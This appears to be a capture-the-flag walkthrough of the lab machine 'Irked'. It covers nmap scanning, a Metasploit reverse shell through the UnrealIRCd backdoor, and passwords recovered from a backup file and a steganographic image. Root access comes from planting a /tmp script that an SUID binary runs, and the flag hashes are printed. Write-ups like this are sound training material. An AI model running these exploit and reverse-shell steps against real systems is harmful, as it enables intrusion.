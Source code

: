 

Initial Nmap scan:

```
nmap -sV -sC -p- 10.10.10.117
```

```
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
111/tcp open  rpcbind
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
60833/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd (Admin email djmardov@irked.htb)
```

## Exploiting UnrealIRCd Backdoor

Use Metasploit or manual reverse shell over the UnrealIRCd backdoor:
```
msfconsole
search UnrealIRCd 
select 0
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOSTS 10.10.10.117
set RPORT 65534
set payload cmd/unix/reverse
set LHOST <tun0 IP>
set LPORT 4444
run
```

Shell as `ircd`

## Lateral Movement 

```
find /home/djmardov -type f -exec ls -la {} \; 2>/dev/null
-rw-r--r-- 1 djmardov djmardov 675 May 11  2018 /home/djmardov/.profile
-rw-r--r-- 1 djmardov djmardov 52 May 16  2018 /home/djmardov/Documents/.backup
-rw------- 1 djmardov djmardov 4706 Nov  3  2018 /home/djmardov/.ICEauthority
-rw-r--r-- 1 djmardov djmardov 220 May 11  2018 /home/djmardov/.bash_logout
-rw-r--r-- 1 djmardov djmardov 3515 May 11  2018 /home/djmardov/.bashrc
-rw-r----- 1 root djmardov 33 Apr 17 21:38 /home/djmardov/user.txt
ircd@irked:~/Unreal3.2$ ls -la /home/djmardov
```
Lets check the .backup
```
/home/djmardov/Documents/.backup
cat /home/djmardov/Documents/.backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

If we try to log in to djmardov with this password, we are not allowed to do that :(
But there was an image on the from page, lets have a look at that.

```
wget http://10.10.10.117/irked.jpg
```

```
steghide extract -sf irked.jpg
# Password: UPupDOWNdownLRlrBAbaSSss

Kab6h+m+bbp2J:HG
```

Now back in our shell 
``
```
su djmardov
# Password: Kab6h+m+bbp2J:HG

cat ~/user.txt
88780f4a6407365cc883e23959d27e6e
```

## Privilege Escalation to Root

Check for SUID binaries:
```
find / -perm -4000 -type f 2>/dev/null
...
/usr/bin/viewuser
...
```

If we run that 
```
/usr/bin/viewuser
sh: 1: /tmp/listusers: not found
```
This means it tries to run `/tmp/listusers` **as root**.
Create malicious script:

```
echo "/bin/sh" > /tmp/listusers
chmod +x /tmp/listusers
```

Run the SUID binary:
```
/usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2025-04-17 21:38 (:0)
# whoami
whoami
root
# cd /root
cd /root
# ls
ls
pass.txt  root.txt
# cat root.txt
cat root.txt
feff7c74c72c03a02efec10c2bab2b52
```